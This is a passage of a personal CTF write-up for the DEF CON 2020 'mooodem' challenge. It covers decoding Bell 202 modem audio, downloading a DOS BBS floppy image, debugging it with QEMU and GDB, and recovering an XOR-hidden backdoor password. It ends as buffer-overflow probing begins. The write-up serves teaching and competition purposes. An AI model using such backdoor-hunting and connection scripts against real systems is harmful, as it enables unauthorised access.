# DEF CON CTF Qualifier 2020

## mooodem

> 139
>
> Relive the good old days. Dust off your old Bell202 modems and dial in. (48kHz FP 8N1)
>
> `mooodem.challenges.ooo 5000`

Source: [https://github.com/o-o-overflow/dc2020q-mooodem-public](https://github.com/o-o-overflow/dc2020q-mooodem-public)

Tags: _pwn_ _rev_ _bof_ _rop_ _x86_ _8086_ _16-bit_ _msdos_ _real-mode_ _modem_ _signal_ _audio_


## Summary

I completed this wonderful, nostalgic-themed challenge 48 hours after the end of the competition (I have a hard time with _pencils down_ when I do not complete a challenge--they haunt me until I finish them).

This multistage challenge starts with a 48kHz FP (Floating Point) 8N1 Bell 202 Standard audio stream (so cool), that then expects a reply in kind--that is the easy part.  Next, you'll have to navigate a simple BBS throwback and download a relatively large compressed floppy image of the BBS itself _at 1200 baud_ (~1200 bps).  Now, with the _16-bit real-mode DOS_ executable in hand, you'll have to find two vulnerabilities; a backdoor, and a buffer overflow; and then turn them into a payload to control code execution and liberate the contents of [`FLAG.TXT`](FLAG.TXT).

Awesome.

I grew up in the 70s/80s, still own an IBM 5160 (8088 4.77 MHz PC), dialed into countless BBSes (starting at 300 baud), ran my own BBS, and still do modem <strike>research</strike> archeology as part of my computer history studies.  You can imagine why _this is now my all-time favorite CTF challenge._ 

This isn't a writeup, or a walkthrough, it's more of a journey, possibly a fan letter.


## Analysis

### First Stage: Bell 202

In the summary I said this was the _easy part_, and for me it was.  I write and maintain similar projects ([c2t](https://github.com/datajerk/c2t) and [asciiexpress.net](https://asciiexpress.net)) and have run across [`minimodem`](http://www.whence.com/minimodem/) in my retro travels.  IOW, I knew exactly what to do.  At least, with this part.

The challenge description pretty much spells it out for you: _Dust off your old Bell202 modems and dial in. (48kHz FP 8N1)._  The 48kHz is the sample rate and the FP is the sample format.  I assumed FP meant Floating Point; whether 32-bit (single precision) or 64-bit (double precision) will require inspection:

```
# nc mooodem.challenges.ooo 5000 | hexdump -C | head -5
00000000  00 00 00 00 7c 91 1f 3e  b8 5d 9e 3e 9d 4d e8 3e  |....|..>.].>.M.>|
00000010  9f 99 16 3f f3 04 35 3f  18 04 4f 3f 21 22 64 3f  |...?..5?..O?!"d?|
00000020  39 72 73 3f 6c df 7c 3f  00 00 80 3f 6c df 7c 3f  |9rs?l.|?...?l.|?|
00000030  39 72 73 3f 20 22 64 3f  17 04 4f 3f f3 04 35 3f  |9rs? "d?..O?..5?|
00000040  9f 99 16 3f 97 4d e8 3e  b3 5d 9e 3e 73 91 1f 3e  |...?.M.>.].>s..>|
```

> The data will always be the same on a new connection.

The leading `00 00 00 00` is the giveaway, 32-bits.  To test my theory I used the following C-snippet with some open source code included with [c2t](https://github.com/datajerk/c2t) to create a `.wav` file, and then tested with `minimodem`.

C-snippet (full code here: [bin2wav.c](bin2wav.c)): 

```c
    float point;
    double *samples = NULL;
    long i = 0, filelength = 0, sampleslength = 0;
...
    samples = malloc(((filelength/4) + 1) * sizeof(double));
    while(fread(&point, 4, 1, ifp) == 1)
        samples[i++] = point;
    Write_WAVE(ofp,samples,i-1,48000,16,1.0);
```

This code is straight forward, read 4-bytes at a time as a float, store as double array, and let `Write_WAVE` output as a `.wav` file.

With `.wav` in hand test with `minimodem`:

```shell
# minimodem -r -8 -f bout1.wav 1200
```


Glorious!

_Wait, where's my flag?_

I guess we have to send something back.  To do that, just do the opposite:

```shell
# /bin/echo "datajerk" | minimodem -t -8 -f in1.wav 1200
```

Then convert from `.wav` to just write out 32-bit float samples:

C-snippet (full code here: [wav2bin.c](wav2bin.c)): 

```c
    int16_t *samples = NULL;
    float point;

    wavread(argv[1], &samples);
    for(int i=0;i<header->datachunk_size;i++) {
        point = samples[i] / 32767.0;
        fwrite(&point, 4, 1, ofp);
    }
```

Then, send back.  Crudely this works just fine:

```python
from pwn import *
import os

def getsome(filename,p,n,d):
    c = 0
    if os.path.exists(filename):
        os.remove(filename)
    f = open(filename,'wb+')
    while c < n:
        _ = p.recv(4096)
        c += len(_)
        f.write(_)
        print('.',end='')
        if d == 1:
            print(c, len(_))
    print()
    f.close()
    return

p = remote('mooodem.challenges.ooo', 5000)
r = open('in1.bin','rb').read()
p.send(r)
getsome('out1.bin',p,15282112,0)
os.system('./bin2wav out1.bin out1.wav; minimodem -r -8 -f out1.wav 1200')
```

The above code will actually return the flag if you know how to create `in1.bin`.  You'll also notice that I start by sending the payload first and then capture the reply.

While advertised as Bell 202 (half-duplex), the challenge server is more like two Bell 202 modems (one for each direction), and thanks to buffering you can send your entire attack as a single shot.

There are clearly more elegant ways to implement this, including native Bell 202 FSK, but for 30 min work, I'll stick with crude.  That said, checkout OOO's patched version that supports raw.  That probably took them 2 min and then you get this great virtual modem (well, two half-duplex modems):

```
HOST=$1
PORT=$2
./minimodem -t 1200 --float-samples -R 48000 -q -f - | \
socat tcp:$HOST:$PORT - | \
./minimodem -r 1200 --float-samples -R 48000 -q -f -
```

> The problem with already knowing something (e.g. minimodem), is that you have preconceived notions of how to use it and do not always consider other options, esp. in the heat of competition.  Fuck me.


### Second Stage: The '80s

After entering your name, you are greeted and presented with the following menu:


Standard fare for an early '80s BBS.

Exploring...



Hmmmm.... I guess download `BBS.ZIP` and then try to figure out how to get authorized.

> Tired of that Ray Goforth quote.  It is always the same first quote.


### Third Stage: `BBS.ZIP`

Downloading files requires nothing special:


Echo that hex into `sed 's/ //g' | xxd -r -p` and you'll get:

```
SysOp
05-15-2020
Congratulations, you've reached the MOOODEM BBS system at
000-OVR-FLOW!

This system allows users to read bulletins, download files,
and, just for fun, display some famous quotes.

Time is limited: you have only a few minutes on this system
before your call will be terminated.

Enjoy!

~SysOp
```

This is basically the bulletin from _List Recent Bulletins_.  This file is structured name, date, text.  `QUOTES.TXT` is too long to show here, however it is structured one quote/line.  Worth remembering.

All that's left is to download `BBS.ZIP`:

```python
from pwn import *
import os

def getsome(filename,p,n,d):
	c = 0
	if os.path.exists(filename):
		os.remove(filename)
	f = open(filename,'wb+')
	while c < n:
		_ = p.recv(4096)
		c += len(_)
		f.write(_)
		print('.',end='')
		if d == 1:
			print(c, len(_))
	print()
	f.close()
	return

p = remote('mooodem.challenges.ooo', 5000)
os.system('/bin/echo -e "datajerk\nL\nF\n2" | minimodem -t -8 -f in1.wav 1200 ; ./wav2bin in1.wav in1.bin')
r = open('in1.bin','rb').read()
p.send(r)
getsome('bout4.bin',p,878051716,0)
```

A payload is created from `datajerk\nL\nF\n2` and sent to start the `BBS.ZIP` download.  `getsome` will receive at least `878051716` bytes and write to `bout4.bin`.  _Why `878051716`?_  Just measured.  If the last arg to `getsome` is `1`, then it will report the number of bytes downloaded; when it starts to slowdown I note the counter and update the code.  Hackish, I know.

Since the data is being appended to a file I can just kill it anytime.

> The total download time is ~8 min.
>
> My first attempt took 2 hours.  I do not recall if the challenge server was bogged down or a bug in my code.  All my sessions were killed within the same minute.  My second attempt pulled this down in minutes.

To extract `BBS.ZIP`:

```
./bin2wav bout4.bin bout4.wav
minimodem -r -8 -f bout4.wav 1200 | grep "00 00 00" | sed 's/ //g' | xxd -r -p >bbs.zip
```

And now the big reveal:

```
# unzip -v BBS.ZIP
Archive:  BBS.ZIP
 Length   Method    Size  Cmpr    Date    Time   CRC-32   Name
--------  ------  ------- ---- ---------- ----- --------  ----
 1474560  Defl:N   180564  88% 2020-05-15 10:01 8f01eb41  BBS.IMG
--------          -------  ---                            -------
 1474560           180564  88%                            1 file
```

A 1.44MB floppy image.  Of course.

```
-rwxrwxrwx  1 root  root     45 May 15 03:01 AUTOEXEC.BAT
-rwxrwxrwx  1 root  root  68400 May 15 03:01 BBS.EXE
-rwxrwxrwx  1 root  root  54645 May 31  1994 COMMAND.COM
-rwxrwxrwx  1 root  root  66294 May 31  1994 DRVSPACE.BIN
-rwxrwxrwx  1 root  root     21 May 15 03:01 FILES.TXT
-rwxrwxrwx  1 root  root     23 May 15 03:01 FLAG.TXT
-rwxrwxrwx  1 root  root  40774 May 31  1994 IO.SYS
-rwxrwxrwx  1 root  root  23569 May 31  1994 MODE.COM
-rwxrwxrwx  1 root  root  38138 May 31  1994 MSDOS.SYS
-rwxrwxrwx  1 root  root    317 May 15 03:01 NOTES.TXT
-rwxrwxrwx  1 root  root  10934 May 15 03:01 QUOTES.TXT
-rwxrwxrwx  1 root  root   9432 May 31  1994 SYS.COM
```

_Wait, what this `FLAG.TXT`:_

```
OOO{not the real flag}
```

Ok, time to look at `BBS.EXE`.


### Forth Stage: The vulns

This is as far as I got with more than 24 hours left in the CTF.

If you check out my [CTF Time profile](https://ctftime.org/user/63000), you'll see that I'm only good at one thing, `strings`.

Two things caught my attention, first, this unholy abomination:

```
                              .,,++++bbbbp+++p,,
                         upQPPTT--   ,  ,   ``TTTPQpp,
                    ,+pPDT ,  )b )| -D -P (P )P  ,   TPbe,
                  +PP,   p `P  O             `, SD eD   .TPp,
               ,QP,   Pu T`     ,+bPPPTTPPPb+,     ` -P  +  TQp
             +PP , )Te       ,ePT=          `TTb,       T` =p `Tp
           ,SP   )T         QPD                `Tb,       `P =u TQD
          eP   TT         ,QP                    -PD        `, ), TD
         bD  TPb          bP                      )Pu         TT , )Pu
       ,bD )Pp   ,,,,,,,,,Pu                      ,bD,,,,,,,,,  TT  `Pb
      .PD ep,   TPDTTTTTTTPTTTTTTTTTT)PPDTTTTTTTTTTPPTTTTTTTPP   ePO  Pp
      DP ,,      `Pp      Pu        sP, Tb         bG     ,PP     ,ee )P
     )P  ,TO       Pb    ,SPp,,    +P    Tb    ,,ubD,    sP`       ,,, Tb
     DP )PP         SDbPPTTTPbTTPbQT      )PbPPTSPDTTTPbbP`        `,` )P
     D` pp,       =DTTP,     TPp+PDTPp  ,SPTPp+PP      SPTTb       tPP` Pb
    )P  ,,      )PP    QD      )PTbpeQDQPeepPTP      ,Q`   )Pp      e+. PP
    )P  TT`    sP,      Tb    eP    .SPPD,    TP,   +P-      Tb     ,   PP
     D` eDP   ,PC        Tb ,QP      bD-Pu     )P, SP         Pp    TT` PP
     DP  ==   TP          TPPP======dPQ,bb======QPPD          ST   SPb )P
     )P  , ,  TP            TP      )PG PP      )PO           bT  -u,  eP
      Pb STO   Pp            TP      Pb+P,     +P            ,DD  , ` )P
       Pu +bP  `Pu            TP,     QPD     pP            ,PP   TT ,PG
        PD  upu `Tb,           `Pp   ePTDu  ,PP            sPO  TPb ,PC
         Qe ` )+  `Tbp,          DbpPO   TPpP`          ,pPO   Tp  ,P-
          Tb `O ,+   .TPPbbbpbbPPTTP      ePTTPbbbpbbPPTO    Pp   pP
           -Pp )C  =               )P,  ,eP                Qp   dDD
             TTp  T  p              )Pp,PO               Tp ` ,PD
               )Tb, `  eP ,           SP,           p `Qu  ,ePO
                 `TPbu - +P ,b  u  ,          -, Du Sb  ,ePT`
                     TPbpp  `. )P )T )D TD |b )P  , u=bPT
                        `TTPQbp,,u    ,  `  ,,,ppPPPT`
                                TTTTTTTTTTTTTT`
```

and then this:

```
Welcome, trusted admin...
```

Neither of these appeared anywhere when exploring remotely.

_Wait!  I have a local copy, lets run that, perhaps there's a hidden menu key, bof, etc..._

`BBS.EXE` did not play well with VMware/DOS or DOSBox.  However a Windows 98 VM I had worked just fine, once.  If you killed it and tried to run a second time Windows reported the system was unstable and it needed to be restarted.  At this point I figured OOO included a free virus with the binary.

Within Windows 98 I tried all the keys from all the menus.  Buffer overflows.  Nada.

I really needed to disassemble and decompile this and then load up in a debugger.

As far a debuggers go, DOS `debug` is pretty basic, and would only run if I exited Windows 98 to DOS, otherwise this:



> _Bet you thought you'd never see that again._

I also tried Turbo Debugger.  This ran within 98, didn't crash, I was making very slow progress.


For the rest of the CTF I ended up using DOSEMU with its native `dosdebug` on an old 1994 PC I had with a 2004 version of Linux (back when 32MB was enough RAM).  And, I could access this machine from my office via SSH (with the correct `Ciphers` and `KexAlgorithms` settings).



This setup is not unlike remote GDB except for the GDB part.  It was pretty painful, but at least it worked, and I was starting to gain some insight into the inner workings of `BBS.EXE`.

> I could not get DOSEMU working with `dosdebug` in a VM with a newer Linux.  The lax memory protections of the 2.4 kernels have either be removed or need to be enabled somehow.  Powering up the ol' '94 was really no big deal.


#### Load up in Ghidra

Ghidra will error with:

```
Error importing file: BBS.EXE
ghidra.program.model.address.AddressOutOfBoundsException: Segment is too large.
```

To fix, import with:



This binary is surprising large for what little function it provides.  There's a zillion functions and no symbols--frequent fare with statically linked buffer overflow CTF challenges where they want you to use ROP.  _Spoiler Alert: echo "gung'f rknpgyl jung jr arrq gb qb urer." | tr 'a-z' 'n-za-m'_

Reading through this was taking too long.  Debugging with DOSEMU/`dosdebug` was taking too long.

> BTW, I've not completely abandoned the notion of using DOSEMU/`dosdebug` in the future.  I think with a bit of scripting it could be a very nice tool, and unlike GDB, it can actually disassemble i8086 correctly.


#### Game over, time's up

About 40 minutes after the end of the CTF UnblvR posted in one of the OTA slack channels that he was using QEMU/GDB.  _JFC, I forgot that was an option._  The next day I probed for more info and he mentioned something about a real-mode GDB script.  After a bit of Googling, it was clear, how to gear up and take a 2nd run at this.


#### Finally, the tools I've been looking for...

I'm running the following three scripts in three discrete windows, executed in this order:

```
test -r pipe.in || mkfifo pipe.in
test -r pipe.out || mkfifo pipe.out
qemu-system-i386 -S -gdb tcp::9000 -drive format=raw,if=floppy,media=disk,file=BBS.IMG -snapshot -serial pipe:pipe &
PID=$!
sleep 1
WID=$(xdotool search --all --pid $PID 2>/dev/null | tail -1)
xdotool windowmove --sync $WID 1910 885 2>/dev/null
wait
```

This boots the `BBS.IMG` floppy image and redirects the DOS serial port to named pipes.  The commands after `qemu-system-i386` just moves the console window to the same location on my desktop so I can avoid using a <strike>mouse</strike> trackpad as much as possible.  I could have ran headless like I do when I use QEMU for cross-build systems or perhaps with curses, but I didn't want to lose any possible leak from the console, OTOH having it in a terminal could preserve all characters.  Anyway, unimportant, nothing is leaked to the console.

```
cat pipe.out & cat > pipe.in
```

This is a script I call `fooodem.sh` (pronounced fauxdem), and provides a very nice interactive session for the BBS (many of the screen shots were taken this way).  I also use this with pwntools when crafting and testing exploits.  This pairs nicely with `mooodem.sh` which is based on the OOO hacked up `minimodem`.

> To be true to myself, in the end, I created a one-shot payload since that is how I would have solved this before the end of the CTF.

```
gdb -x gdb_init_real_mode.txt -x new.txt -x doit.txt
```

You can read all about [`gdb_init_real_mode.txt`](https://ternet.fr/media/gdb_init_real_mode.txt) [here](https://ternet.fr/gdb_real_mode.html).  IANS, this is "like" PEDA, GEF, pwndbg, but for i8086.

`new.txt` contains a few "new" things I created to help me out, and a modified version of `context` from [`gdb_init_real_mode.txt`](https://ternet.fr/media/gdb_init_real_mode.txt).  The most notable change is some super hacky i8086 disassembly.  I used `ia16-elf-objdump -x -d BBS.EXE --adjust-vma=0x20 >bbs.objdump` to create a correct disassembly and then `grep -A10` the address from within `context`.  Sanity restored.

`doit.txt` is just:

```
target remote localhost:9000
continue
```

This unpauses QEMU and the action starts.

I cannot tell you how happy I am.


#### Getting started...

Before we move on we need to find the code segment (CS) for `BBS.EXE`, and I do not know how to do that except to stop execution while the MOOODEM banner is printing.  I used this same technique with `dosdebug` as well.  The good news is that it is very consistent with identical setups, e.g. with DOSEMU it was always `0xFA0`, with QEMU it has always been `0xF94`.  The other option is to set a breakpoint.  The former method worked just fine for me.

> Did I forget to mention that [i8086 is weird](https://en.wikipedia.org/wiki/X86_memory_segmentation)?  Man, you're in for a treat.  The i8086 has a 20-bit address bus, but only 16-bit addresses.  Instead of using bank switching, Intel decided to use "segments".  The short of it is your hardware address is `16 * $CS` + offset (what you think your address is).  If you're wondering if that can cause problems--well, _yes!_

Ok, here's what I see:

BBS booted:



`fooodem.sh` frozen:


`gdb` waiting for my next move:


Above is the output of my `new.txt` `context`.  Added is a vertical stack view, and at the bottom you can see the incorrect GDB i8068 disassembly and the correct disassembly from `objdump`.

> Before you ask, yes: `set architecture i8086`

Notice that CS is `0xF94`, this will be frequently used.  Also note that SS is `0x1EAF`.  We need this too.


#### Welcome, trusted admin...

This is where I was early Saturday.  I had `BBS.EXE` in hand and more that 30 hours before the end of the CTF.

_But now I have better tools._

First I need to find what function prints `Welcome, trusted admin...`.  Normally in Ghidra I'd just look and the XREFs, however with this weird memory layout none are listed (I even tried IDA Free ed--nope).

So, we'll have to search memory:

```
real-mode-gdb$ find_in_mem "Welcome, trusted admin..."
...
0001F800
Code found at 0x1F889
```

Sanity check:

```
real-mode-gdb$ x/1s 0x1F889
0x1f889:	"Welcome, trusted admin...\n\n"
```

That's a 20-bit address, `BBS.EXE` isn't going to use that directly, we need to find how `BBS.EXE` will reference that address:

```
real-mode-gdb$ print/x 0x1F889 - 16 * $ss
$2 = 0xd99
```

> SS is the stack segment register.

Somewhere in `BBS.EXE` something is loading up the address to display `Welcome, trusted admin...`, using `grep` to find it:

```
# grep '0xd99$' bbs.objdump
    e8f1:	b8 99 0d             	mov    ax,0xd99
```

`0xe8f1`.  We should probably look at the code, but why not recklessly set EIP to it and see what happens:

```
real-mode-gdb$ set $eip=0xe8f1
real-mode-gdb$ continue
Continuing.
```


Evil is upon us.  At a min, a budget cult.  The program crashed as well.

Finally, a breakthrough.


#### Backtracking


Above is the decompilation of the disassembled function with address `0xe8f1`.

When going through this the first time and taking notes, `FUN_0000_1510` kept popping up everywhere.  I assume it is  `fprintf`-like with arguments to a pointer, FD (stdin), length, and a format string.

Assuming `FUN_0000_df55` is something like `puts` (notice the `0xd99` argument).

Lastly `0x1980 = 1;` looks like a flag.

From the disassembly header there an XREF:



That that leads to:


Finally some normal looking code.  Most of the decompilation has to be `libc`--a library optimized for features above all else.

Starting from the bottom up you can see the highlighted `FUN_0000_e8d5` that we just left.

Above that is a comparison that must pass for the "trusted" function to be called.  If I had to guess `FUN_0000_2391` is comparing two strings or arrays.

And above that I presume string `local_e` is getting the `xor` treatment with an argument of `0x8c`--looks like '80s crypto.

`local_10 = 0xf48` is unchanged (what `local_e` is presumedly compared with).

_What is at address `0xf48`?_

More funny math:

> SS got messed up in the crash, hence why we had to remember `0x1EAF`.

```
real-mode-gdb$ print/x 0x1EAF * 16 + 0xf48
$3 = 0x1fa38
real-mode-gdb$ x/1s $3
0x1fa38:	"\377\371\374\351\376\377\342\351\355\347\365\276\274\276\274"
```

Looks like budget cult OOO spec crypto to me, check if `0x8c` is the key:

```
# python3 -c 'print(bytes([ i ^ 0x8c for i in b"\377\371\374\351\376\377\342\351\355\347\365\276\274\276\274"]))'
b'supersneaky2020'
```

Finally, a goddamned breakthrough.


#### Backdoor

Restarting the simulation and testing for `supersneaky2020`:



So `supersneaky2020` as a "name" does not appear to do anything, however from the command prompt, _yes!_  And, now we can create bulletins.

Backdoor, unlocked.


#### Create some bulletins, list some bulletins



I first created a 200 character bulletin, then tried 1000 characters.  Nothing, no crash.

Curious I decided to list them:

